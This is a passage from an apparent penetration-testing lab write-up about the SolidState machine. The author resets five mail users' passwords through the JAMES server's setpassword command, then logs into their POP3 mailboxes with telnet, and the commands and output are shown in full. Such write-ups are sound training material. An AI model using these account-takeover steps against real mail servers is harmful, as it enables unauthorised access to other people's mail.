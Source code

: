 

I can change the password for each:



    setpassword -h
    Usage: setpassword [username] [password]
    setpassword james 0xdf0xdf
    Password for james reset
    setpassword thomas 0xdf0xdf
    Password for thomas reset
    setpassword john 0xdf0xdf
    Password for john reset
    setpassword mindy 0xdf0xdf
    Password for mindy reset
    setpassword mailadmin 0xdf0xdf
    Password for mailadmin reset



For each account, I can now connect to TCP 110 (POP3) to check mail.
`telnet` works best to connect to POP3. The first user, james, has no
messages:



    root@kali# telnet 10.10.10.51 110
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    +OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
    USER james
    +OK
    PASS 0xdf0xdf
    +OK Welcome james
    LIST
    +OK 0 0
    .



I'll quit (CTRL+\] followed by entering `quit`), and move on to the next
user. No mail in thomas either, but john does show one message:



    root@kali# telnet 10.10.10.51 110
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    +OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
    USER john
    +OK
    PASS 0xdf0xdf
    +OK Welcome john
    LIST
    +OK 1 743
    1 743
    .
